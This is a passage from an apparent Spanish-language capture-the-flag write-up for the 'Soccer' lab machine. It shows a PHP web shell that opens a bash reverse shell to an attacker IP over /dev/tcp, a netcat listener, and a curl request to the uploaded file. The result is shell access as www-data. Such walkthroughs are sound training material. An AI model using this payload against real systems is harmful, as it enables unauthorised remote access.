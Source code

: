 Creamos un archivo que podemos llamar "shell.php" en el cual escribiremos nuestro comando que se ejecutará en la máquina víctima.

```php
<?php
    system("bash -c 'bash -i >& /dev/tcp/10.10.14.85/443 0>&1'")
?>
```
La dirección IP que colocamos es la del atacante.

Aquí te comparto un generador de reverse shells, https://www.revshells.com/ 

![img](/assets/img/post/soccer/subir.png)

Después de crear nuestro archivo, lo cargamos en el gestor de archivos.

Escuchamos en el puerto 443:
```bash 
❯ sudo netcat -lvnp 443
[sudo] password for mhil4ne: 
listening on [any] 443 ...
```
Invocamos nuestro shell.php:
```bash
❯ curl soccer.htb/tiny/uploads/shell.php
```
Con esto ya tenemos una reverse shell, como www-data.

Ahora revisamos el puerto 9091.
